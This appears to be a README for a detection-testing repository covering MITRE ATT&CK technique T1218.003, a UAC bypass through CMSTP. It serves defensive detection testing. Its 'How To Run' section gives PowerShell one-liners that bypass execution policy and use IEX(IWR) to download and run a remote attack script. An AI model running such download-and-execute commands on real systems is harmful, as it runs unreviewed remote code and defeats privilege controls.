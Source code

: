 # T1218.003 - CMSTP
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/003)
Adversaries may abuse CMSTP to proxy execution of malicious code or to [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002).

The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

CMSTP.exe can be abused to and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)

## Tests

- CMSTP Executing UAC Bypass

## How To Run
Open PowerShell.exe as an administrative user, but **do not** "Run as Administrator". Then execute the following commands:

```PowerShell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force

IEX(IWR "https://raw.githubusercontent.com/SecurIT360/TTP-Detection-Testing/main/Defense-Evasion/T1218.003/CMSTP_UACBypass_Test.ps1")
```

## How To Cleanup
Run the following command when you're finished testing and want to clean up:

```PowerShell
IEX(IWR "https://raw.githubusercontent.com/SecurIT360/TTP-Detection-Testing/main/Defense-Evasion/T1218.003/CMSTP_UACBypass_Cleanup.ps1")
```

## Demo
![](https://github.com/SecurIT360/TTP-Detection-Testing/blob/main/Defense-Evasion/T1218.003/CMSTP_UACBypass.gif)

